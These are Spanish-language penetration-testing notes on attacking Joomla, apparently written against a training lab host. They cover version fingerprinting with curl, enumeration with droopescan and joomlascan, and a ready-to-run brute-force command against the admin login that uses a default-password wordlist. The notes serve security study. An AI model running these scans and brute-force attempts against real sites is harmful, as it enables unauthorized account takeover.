 # Joomla Hacking

## Descubrimiento/Huella

```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

El archivo `robots.txt` de un sitio de Joomla a menudo se verá así:

```bash
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Podemos tomar huellas dactilares de la versión de Joomla si el archivo `README.txt` está presente.

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

En ciertas instalaciones de Joomla, es posible que podamos tomar las huellas digitales de la versión de los archivos de JavaScript en el directorio `media/system/js/` o navegando hasta `administrator/manifests/files/joomla.xml`.

```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

## ENUMERACION

### DROOPSCAN

instalacion:

```bash
sudo pip3 install droopescan
```

escaneo:

```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### JOOMLASCAN

instalacion:

```bash
sudo python2.7 -m pip install urllib3
sudo python2.7 -m pip install certifi
sudo python2.7 -m pip install bs4
```

escaneo:

```bash
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

## BRUTE FORCE LOGIN

El login del CMS normalmente esta en la siguiente URI: `/administrator/index.php`:

La cuenta de administrador predeterminada en las instalaciones de Joomla es `admin`, pero la contraseña se configura en el momento de la instalación, por lo que la única forma en que podemos esperar ingresar al back-end de administración es si la cuenta está configurada con una contraseña muy débil/común y podemos obtener con algunas conjeturas o fuerza bruta ligera. Podemos usar este [script](https://github.com/ajnik/joomla-bruteforce) para intentar forzar el inicio de sesión por fuerza bruta.

```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```